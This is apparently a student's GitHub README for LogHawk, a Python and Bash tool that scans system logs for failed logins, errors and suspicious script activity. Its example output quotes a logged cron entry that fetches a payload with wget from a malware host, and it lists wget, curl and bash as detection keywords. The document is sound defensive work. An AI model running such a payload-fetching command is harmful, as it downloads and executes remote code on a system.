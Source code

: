 
# 🦅 LogHawk

LogHawk is a lightweight, open-source log monitoring tool built in both Python and Bash. It automates the detection of suspicious activity in system and web logs, helping security teams identify threats like brute-force attacks, critical errors, and malicious scripts before they become incidents. It scans system and application logs for:

- 🛑 Failed login attempts
- ⚠️ Unusual traffic spikes
- 🔥 Critical system errors
- 🦠 Suspicious script activity


## ⚙️ Installation
Before using LogHawk, make sure you have Python 3 installed. You can install it by running: 

```bash
sudo apt-get install python3
```
Clone the repo and make scripts executable:
```bash
git clone https://github.com/Lintageorge7/LogHawk.git
cd LogHawk
chmod +x loghawk.sh
chmod +x loghawk.py
```
## 🐍 Usage (Python)

```bash
python3 loghawk.py Sample_logs/auth.log
```

## 📤 Example Output
```bash
[🔐] Detecting failed logins...
⚠️  6 failed login attempts from 192.168.1.101
[🌐] Detecting traffic spikes...
[🔥] Detecting system errors...
❗ Jul 14 08:14:30 systemd[1]: ERROR - Disk full
❗ Jul 14 08:14:45 app[1001]: CRITICAL - Kernel panic
[🦠] Detecting suspicious script activity...
🚩 Suspicious: Jul 14 08:14:01 cron[5678]: (root) CMD (wget http://malware.site/payload.sh)
```

## 💻 Usage (Bash)
```bash
./loghawk.sh Sample_logs/system.log
```

## 📸 Sample Output Screenshot

screenshots/sample_bashoutput.png

screenshots/sample_output.png

## 🧠 Threats Detected
LogHawk currently detects:

 • 🔐 Failed Login Attempts — Flags 5+ failed logins per IP (MITRE T1110)

 • 🔥 Critical System Errors — Catches “ERROR” and “CRITICAL” entries in logs

 • 🦠 Suspicious Script Activity — Identifies malicious command use (wget, curl, bash)

 • 🌐 Traffic Spikes — High request volume from single IPs (future iteration)

All detections act as potential Indicators of Compromise (IoCs).

## ⏱️ Automation Setup

### 🐧 Linux (Cron)
Run every 10 minutes:
```bash
crontab -e
*/10 * * * * /home/student/LogHawk/loghawk.sh /var/log/auth.log
```

## 🪟 Windows: Task Scheduler

To schedule LogHawk on Windows:

1. Open Task Scheduler → Create Basic Task

2. Trigger: Every 10 minutes

3. Action: Start a program
    
 •  Program: python

 •  Arguments: C:\path\to\loghawk.py C:\logs\auth.log

## 📂 Project Structure

```bash
LogHawk/

├── loghawk.py        # Python version
├── loghawk.sh        # Bash version
├── sample_logs/      # Test log files
├── screenshots/      # Images for report/README
├── README.md         # This file
└── LogHawk_Report.md # Final report (optional: .pdf)
```

## 🧪 Sample Logs

Sample logs are located in the sample_logs/ folder for testing:

• auth.log

• access.log

• system.log


## 🔄 Future Improvements
 
 • Email/SMS alerting

 • Log filtering thresholds

 • JSON/CSV export

 • Web UI dashboard

 • Integration with ELK or Splunk

## 📚 References

 • MITRE ATT&CK: https://attack.mitre.org/ 

 • NIST Log Management Guidelines: https://csrc.nist.gov/publications 

 • Red Hat: Log Files and Monitoring: https://access.redhat.com  

## 🤝 Contributing
Pull requests are welcome. If you have improvements or new detection rules, feel free to contribute!

## 📄 License
This project is licensed under the MIT License.

## 👩‍💻 Author
Linta Susan George
Cybersecurity Student @ Lighthouse Labs | 🇨🇦
